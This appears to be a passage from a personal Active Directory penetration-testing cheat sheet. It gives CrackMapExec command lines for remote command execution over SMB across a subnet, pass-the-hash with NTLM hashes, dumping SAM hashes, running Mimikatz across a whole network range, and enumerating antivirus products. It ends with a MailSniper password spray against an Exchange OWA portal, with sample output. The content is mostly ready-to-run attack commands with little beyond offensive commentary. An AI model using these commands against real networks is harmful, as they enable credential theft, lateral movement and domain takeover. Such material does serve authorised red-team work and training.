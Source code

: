 

#### [](#header-4) CrackMapExec

```powershell
CrackMapExec is installed on Kali or get Windows Binary from Github.

Has 3 Execution Methods
crackmapexec smb <- Creating and Running a Service over SMB
crackmapexec wmi <- Executes command over WMI
crackmapexec at <- Schedules Task with Task Scheduler

Can execute plain commands with -X flag i/e 

crcakmapexec smb 10.10.14.0/24 -x whoami

crcakmapexec smb 10.10.14.0/24 <- Host Discovery
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' 
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --pass-pol
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --shares


Can also PTH with CME

crackmapexec smb 10.10.14.0/24 -u user -H e8bcd502fbbdcd9379305dca15f4854e

cme smb 10.8.14.14 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e --local-auth --shares 


--local-auth is for Authenticating with Local Admin, good if Organisaton uses same local admin hash through network and not using LAPS

Dump Local SAM hashes

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth --sam

Running Mimikatz 

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz

^ Very noisy but yes you can run mimikatz across a WHOLE network range. RIP Domain Admin

Enum AV Products

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M enum_avproducts
```



#### [](#header-4) Mail Sniper

```powershell
Invoke-PasswordSprayOWA -ExchHostname m0chanAD.local -userlist harvestedUsers.txt -password Summer2019

[-] Now spraying the OWA portal at https://m0chanAD.local/owa/

[-] SUCCESS! User:m0chan:Summer2019

Lmao, you really think Id use the pass Summer2019?
```
